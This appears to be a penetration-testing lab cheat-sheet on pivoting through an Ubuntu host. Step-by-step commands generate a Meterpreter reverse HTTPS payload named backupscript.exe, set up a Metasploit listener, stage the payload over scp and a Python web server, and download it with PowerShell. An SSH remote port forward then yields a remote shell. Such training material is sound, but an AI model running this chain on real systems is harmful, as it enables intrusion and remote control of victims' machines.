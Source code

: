 
### Creating a Windows Payload with msfvenom

**Command:**

```Shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InternalIPofPivotHost> LPORT=8080 -f exe -o backupscript.exe
```

**Explanation:**  
Generates a Meterpreter reverse HTTPS payload targeting pivot host's IP and port 8080.

---

### Configuring & Starting the multi/handler

**Command:**

```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

**Explanation:**  
Starts a Metasploit listener to handle incoming reverse shells on port 8000.

---

### Transferring Payload to Pivot Host

```Shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

**Explanation:**  
Securely copies the payload to the Ubuntu pivot host using SCP.

---

### Starting Python3 Webserver on Pivot Host

**Command:**

```Shell
python3 -m http.server 8123
```

**Explanation:**  
Hosts the payload on a local HTTP server for download from the Windows target.

---

### Downloading Payload on the Windows Target

```PowerShell
Invoke-WebRequest -Uri "<http://172.16.5.129:8123/backupscript.exe>" -OutFile "C:\\backupscript.exe"
```

**Explanation:**  
Uses PowerShell to download the payload from the Ubuntu host to the Windows machine.

---

### Using SSH -R (Remote Port Forwarding)

```Shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

**Explanation:**  
Forwards Ubuntu host port 8080 to the attack host’s Metasploit listener on port 8000 via SSH.

---

### Viewing the Logs from the Pivot

**Command:** _(log output example)_

```Plain
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: channel 1: connected to 0.0.0.0 port 8000
```

**Explanation:**  
SSH debug logs showing successful port forwarding from the Windows target to the attack listener.

---

### Meterpreter Session Established

**Command:**

```Plain
meterpreter > shell
```

**Explanation:**  
Confirms successful reverse shell connection through SSH reverse port forwarding via the Ubuntu server.

---